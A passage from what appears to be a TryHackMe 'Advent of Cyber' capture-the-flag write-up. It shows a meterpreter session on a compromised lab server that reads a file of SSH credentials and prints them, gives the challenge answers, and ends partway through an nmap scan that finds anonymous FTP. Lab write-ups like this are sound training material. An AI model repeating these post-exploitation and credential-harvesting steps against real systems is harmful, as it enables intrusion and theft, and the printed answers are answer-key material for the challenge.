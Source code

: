 
### 2 - Now you've compromised the web server, get onto the main system. What is Santa's SSH password?
```bash
meterpreter > ls /home
Listing: /home
==============

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40755/rwxr-xr-x  4096  dir   2019-12-08 14:12:45 -0700  santa

meterpreter > cd /home/santa
meterpreter > ls
Listing: /home/santa
====================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  30    fil   2019-12-08 14:12:44 -0700  ssh-creds.txt

meterpreter > cat ssh-creds.txt
santa:rudolphrednosedreindeer
meterpreter >
```

### 3 - Who is on line 148 of the naughty list?
Login with santa's ssh creds and view `naughty_list.txt`:
```
Melisa Vanhoose
```

### 4 - Who is on line 52 of the nice list?
Login with santa's ssh creds and view `nice_list.txt`:
```
Lindsey Gaffney
```



## Task 16 -- [Day 11] Elf Applications
```
export IP=10.10.133.181
```
### 1 - What is the password inside the creds.txt file?
Initial nmap scan:
```
jeffrowell@kali:~/Documents/TryHackMe/Advent of Cyber/elf_applications$ nmap -sC -sV -Pn -n -oN nmap/initial $IP
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-25 15:36 MDT
Nmap scan report for 10.10.133.181
Host is up (0.14s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 500 OOPS: invalid pasv_address
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.8.21.42
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
```